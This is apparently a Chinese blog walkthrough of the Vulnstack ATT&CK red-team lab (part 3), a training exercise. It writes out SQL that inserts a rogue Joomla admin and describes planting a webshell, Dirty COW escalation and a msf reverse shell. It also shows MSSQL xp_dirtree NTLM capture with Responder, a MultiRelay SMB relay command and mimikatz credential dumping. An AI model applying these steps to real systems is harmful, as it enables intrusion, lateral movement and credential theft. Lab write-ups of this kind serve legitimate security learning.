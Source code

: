 ```yaml
---
layout:     post
title:    渗透-Vulnstack靶机学习3
subtitle:   靶机渗透
date:       2020-01-24
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# 渗透-Vulnstack靶机学习3

Vulnstack是红日安全团队出品的一个实战环境，本次测试的红日安全 ATT&CK实战系列——红队实战（三）靶场环境，下载地址：[http://vulnstack.qiyuanxuetang.net/vuln/detail/5/](http://vulnstack.qiyuanxuetang.net/vuln/detail/5/)  


## Web
一共五个虚拟机文件，下载完后全部启动，有一个web，默认是192.168.1.110，我这改过后面换成了104。  
访问是一个joomla的站。  
![200124_1](/img/200124_joomla.png)  
查看了下版本，比较高，应该是不存在直接可以利用的漏洞。  
![200124_2](/img/200124_joomlaver.png)      
一步一步来，先扫一下目录和文件。  
![200124_3](/img/200124_dirscan.png)  
可以看到有个配置文件的备份文件泄漏。  
![200124_4](/img/200124_configbak.png)  
里面有一个mysql的测试账户，如果3306对外开放，可以利用这个测试账户，修改数据库，添加管理进入后台。测试下3306是否对外开放。  
![200124_5](/img/200124_3306.png)  
端口是开着的。登陆下试试，可以登陆。  
![200124_6](/img/200124_mysqllogin.png)  
根据官方手册，添加一个admin2 密码为secret的账户。  
```
NSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```   
图中踩了个小坑，表前缀根据配置文件的来，而不是数据库中显示的。  
![200124_7](/img/200124_addadmin.png)  
登陆以后拿webshell比较简答，在模板中创建文件即可。  
![200124_8](/img/200124_webshell.png)  
用蚁剑链接后，不能执行命令。  
![200124_9](/img/200124_runerror.png)  
没有关系，直接翻文件，翻了一圈，翻到一个有意思的文件。  
![200124_10](/img/200124_test.png)  
尝试登陆一下，emmm可以成功登陆192.168.1.104。对比发现文件目录并不一样，推测104是一个反向代理服务器。    
![200124_11](/img/200124_ifconfig2.png)   
## 内网 提权
看了下内核版本，应该可以用脏牛提权。  
![200124_12](/img/200124_dirtycow.png)  
然后用msf生成个elf，反弹下，用这个去扫内网快一点。  
![200124_13](/img/200124_payload.png)  
添加路由。  
![200124_14](/img/200124_addroute.png)  
扫一下内网smb，有3台。  
![200124_15](/img/200124_smbscan.png)  
基本的内网拓扑就知道了，一台centos反向代理了一个web，两张网卡，内网由一个web服务器，没有去尝试执行命令和提权，然后是一个三台win组成的域环境，192.168.93.10，192.168.93.20，192.168.93.30.  
扫了下端口服务，发现有一台192.168.93.20开启了1433端口，测试能用之前mysql的testuser账号密码登陆，其他的ms17010均不行。  
尝试使用mssql来完成ntlm中继的过程。正常情况下要在服务器上去操作dir远程主机的命令（不用net use 是因为dir会自动测试本地已有的hash，而不需要手动输入）， 这里利用mssql调用***xp_dirtree***来代替完成这个过程。  
上传Responder至104并开启。然后在msf中调用模块(***auxiliary/admin/mssql/mssql_ntlm_stealer***)去触发UNC。  
![200124_16](/img/200124_unc.png)  
192.168.1.104上开启responder。  
![200124_17](/img/200124_responder.png)   
获取到hash，可以尝试破解。实际上不破解也可以，配合利用MultiRelay进行转发即可。   
## smb中继 
在实际测试中发现了一个问题，我这里192.168.93.30去尝试登陆20不行，反过来是可以的，所以为了测试，并写中继的过程，我是手动去完成这个过程的，登陆了20执行了dir命令。    
先在104上开启MultiRelay。  
```
python MultiRelay.py -t 192.168.93.20 -u Administrator
``` 
-t是尝试去登陆的机器，实际上应该是由20发起登陆请求中继登陆30，这里我是反过来了，没办法是这样的。这里-u我写了administrator，因为我知道有这个账户，不知道的话就写ALL。  
然后去192.168.93.30上执行：  
```
dir \\192.168.93.100\c$
```
然后在MultiRelay中会返回一个shell。  
![200124_18](/img/200124_shell.png)  
使用mimikatz读取密码.  
![200124_19](/img/200124_mimikatz.png)  
仔细看是有域管的密码的。  
![200124_21](/img/200124_dcpass.png)  
那就已经完毕了。  
![200124_20](/img/200124_domianip.png)  
如果照原始的套路来做，会麻烦一点，多一步，我们是根据20登陆的30，30读到的密码，需要再去登陆20，然后mimikatz，比较绕。 原理是一样的。  


## 参考
[https://xz.aliyun.com/t/6988](https://xz.aliyun.com/t/6988)   
[https://www.jianshu.com/p/c7d8e7d9c03c](https://www.jianshu.com/p/c7d8e7d9c03c)  
[https://xz.aliyun.com/t/3560](https://xz.aliyun.com/t/3560)  
